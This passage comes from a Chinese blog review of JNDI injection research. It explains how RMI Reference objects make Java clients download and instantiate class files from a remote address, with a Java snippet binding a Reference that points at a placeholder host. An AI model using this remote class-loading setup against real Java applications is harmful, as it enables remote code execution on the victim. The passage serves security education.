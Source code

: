 使用更为直观的图示来描述整个流程：

![](/images/articles/2016-08-19-jndi-injection-from-theory-to-apply-blackhat-review/3.png)

这里应用使用 JNDI 获取远程 `sayHello()` 函数并传入 `"RickGray"` 参数进行调用时，真正执行该函数是在远程服务端，执行完成后会将结果序列化返回给应用端，这一点是需要弄清楚的。

#### 2. RMI 中动态加载字节代码

如果远程获取 RMI 服务上的对象为 Reference 类或者其子类，则在客户端获取到远程对象存根实例时，可以从其他服务器上加载 class 文件来进行实例化。

Reference 中几个比较关键的属性：

1. className - 远程加载时所使用的类名
2. classFactory - 加载的 class 中需要实例化类的名称
3. classFactoryLocation - 提供 classes 数据的地址可以是 file/ftp/http 等协议

例如这里定义一个 Reference 实例，并使用继承了 `UnicastRemoteObject` 类的 `ReferenceWrapper` 包裹一下实例对象，使其能够通过 RMI 进行远程访问：

```java
Reference refObj = new Reference("refClassName", "insClassName", "http://example.com:12345/");
ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);
registry.bind("refObj", refObjWrapper);
```

当有客户端通过 `lookup("refObj")` 获取远程对象时，获得到一个 Reference 类的存根，由于获取的是一个 Reference 实例，客户端会首先去本地的 `CLASSPATH` 去寻找被标识为 `refClassName` 的类，如果本地未找到，则会去请求 `http://example.com:12345/refClassName.class` 动态加载 classes 并调用 `insClassName` 的构造函数。

借用官方的流程图：
